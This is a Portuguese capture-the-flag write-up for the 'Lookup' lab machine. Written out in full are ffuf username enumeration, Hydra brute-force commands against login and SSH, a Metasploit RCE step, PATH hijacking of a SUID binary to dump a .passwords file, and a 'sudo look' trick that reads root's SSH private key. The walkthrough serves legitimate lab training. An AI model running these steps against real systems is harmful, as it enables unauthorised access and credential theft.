

# _**Lookup CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Parece que não conseguimos acessar o site  
Vamos alterar o arquivo _/etc/hosts_ para podermos ver
Adicionamos a linha abaixo
* [ip_address]  lookup.thm

Acessando o site, temos uma página de login  


Tentando **SQL Injection** com ```' || '1'='1';-- -```, mas não funcionou  
Vamos procurar outra maneira  
Com alguns usuários conhecidos, temos um tipo de retorno, com desconhecidos, temos outro tipo de retorno  
A mensagem disponibilizada quando tem usuários conhecidos é apenas de _wrong password_  
E um destes usuários é _admin_  
Além disso, ao entrar na barra de endereço _login.php_, somos levados a uma página em branco  

**admin**  

  

**outro _username_**  


Pode ser que tenha outro usuário também além de _admin_  
Para descobrirmos, iremos executar o comando abaixo com a ferramenta <mark>ffuf</mark>
> ```bash
> ffuf -X POST -u http://lookup.thm/login.php -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalidpass123" -w ../seclists/Usernames/Names/names.txt -fr "Wrong username or password. Please try again."
> ```


O outro nome existente é **jose**  
Vamos tentar realizar um ataque de força bruta com <mark>Hydra</mark>
> ```bash
> hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password. Please try again." -IV -t 64
> ```


Tentando a senha descoberta, temos sucesso!  


Vamos alterar o arquivo de configuração _/etc/hosts_  
Após, acessamos **files.lookup.thm** e temos o seguinte:  


Diversas credenciais, mas podemos fazer algo a mais
Verificando com <mark>searchsploit</mark>, temos versão com _remote command execution_  


Vamos utilizar <mark>Metasploit</mark> para podermos explorar a vulnerabilidade  
Primeiro, selecionamos o módulo  
Em seguida, configuramos nosso host remoto, isto é: files.lookup.thm  
E então, executamos  

  


Executando o comando ```find / -perm -4000 -type f 2>/dev/null```, encontramos um arquivo interessante e incomum: _/usr/sbin/pwn_  
Executando ```ls -la```, temos o retorno  


Os bits SUID e SGID são definidos: -rwsr-sr-x
Isso indica que, quando executado, este programa é executado com os privilégios do proprietário, que é root, juntamente com os privilégios do grupo do arquivo, que também é root  
Utilizando ```strings```, temos o resultado abaixo  


Esta saída mostra que este arquivo utiliza vinculação dinâmica e bibliotecas como **libc.so.6**  
As funções _fopen_, _perror_ e _popen_ indicam que o programa está executando operações de arquivo e comandos de shell  
Isso indica a possibilidade de injeção de comandos  
Também vemos que o programa tenta acessar /home/%s/.passwords, revelando que está se baseando em caminhos e nomes de arquivo previsíveis  

A primeira coisa que devemos fazer é executar cd /tmp, pois temos acesso de gravação ao diretório /tmp  
Em seguida, executemos este comando para escrever nossa própria versão do comando id:
> ```bash
> echo 'echo "uid=1000(think)"' > id
> chmod +x id
> export PATH=/tmp:$PATH
> ```
E agora que o caminho foi manipulado, podemos executar o comando **pwm** e ele executará completamente o arquivo .passwords, que agora copiaremos e salvaremos como passwords.txt no dicionário /tmp  
Agora, temos as senhas, mas ainda não sabemos qual delas nos permitirá mudar o modo como os usuários pensam  


Aqui, realizamos um ataque de força bruta contra o serviço SSH  


Agora, para escalarmos privilégios, vamos primeiro tentar algo com o comando ```sudo -l```  


Procurando em GFTOBins por _look_, temos o seguinte  


Podemos executar os seguintes comandos
> ```bash
> LFILE=/root/.ssh/id_rsa
> sudo look '' "$LFILE"
> ```
Agora, em nossa máquina
> ```bash
> echo '[ssh_key]' > id_rsa
> chmod 600 id_rsa
> ssh -i id_rsa root@[ip_address]
> ```


Assim, temos acesso _root_  
Basta ir atrás das flags!
